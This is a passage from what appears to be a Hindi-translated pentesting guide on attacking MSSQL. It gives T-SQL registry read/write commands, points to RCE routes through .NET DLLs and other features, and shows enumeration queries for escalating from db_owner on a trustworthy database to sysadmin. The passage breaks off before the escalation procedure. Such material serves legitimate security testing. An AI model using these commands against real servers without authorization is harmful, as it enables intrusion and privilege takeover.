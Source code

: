 ```sql
# Example read registry
EXECUTE master.sys.xp_regread 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\Microsoft SQL Server\MSSQL12.SQL2014\SQLServerAgent', 'WorkingDirectory';
# Example write and then read registry
EXECUTE master.sys.xp_instance_regwrite 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\MSSQLSERVER\SQLServerAgent\MyNewKey', 'MyNewValue', 'REG_SZ', 'Now you see me!';
EXECUTE master.sys.xp_instance_regread 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\MSSQLSERVER\SQLServerAgent\MyNewKey', 'MyNewValue';
# Example to check who can use these functions
Use master;
EXEC sp_helprotect 'xp_regread';
EXEC sp_helprotect 'xp_regwrite';
```
For **more examples** check out the [**original source**](https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/).

### RCE with MSSQL User Defined Function - SQLHttp <a href="#mssql-user-defined-function-sqlhttp" id="mssql-user-defined-function-sqlhttp"></a>

यह संभव है कि **MSSQL में कस्टम फ़ंक्शंस के साथ .NET dll लोड करें**। हालांकि, इसके लिए **`dbo` एक्सेस की आवश्यकता है** इसलिए आपको **`sa` या एक Administrator भूमिका** के रूप में डेटाबेस के साथ एक कनेक्शन की आवश्यकता है।

[**Following this link**](../../pentesting-web/sql-injection/mssql-injection.md#mssql-user-defined-function-sqlhttp) to see an example.

### Other ways for RCE

कमांड निष्पादन प्राप्त करने के अन्य तरीके हैं, जैसे [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), और [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql)।

## MSSQL Privilege Escalation

### From db\_owner to sysadmin

यदि एक **सामान्य उपयोगकर्ता** को **`db_owner`** भूमिका दी जाती है **एक डेटाबेस पर जो एक admin** उपयोगकर्ता (जैसे **`sa`**) द्वारा स्वामित्व में है और वह डेटाबेस **`trustworthy`** के रूप में कॉन्फ़िगर किया गया है, तो वह उपयोगकर्ता इन विशेषाधिकारों का दुरुपयोग कर सकता है **privesc** के लिए क्योंकि वहाँ बनाए गए **stored procedures** को **admin** के रूप में **execute** किया जा सकता है।
```sql
# Get owners of databases
SELECT suser_sname(owner_sid) FROM sys.databases

# Find trustworthy databases
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;

# Get roles over the selected database (look for your username as db_owner)
USE <trustworthy_db>
SELECT rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)

# If you found you are db_owner of a trustworthy database, you can privesc:
--1. Create a stored procedure to add your user to sysadmin role
```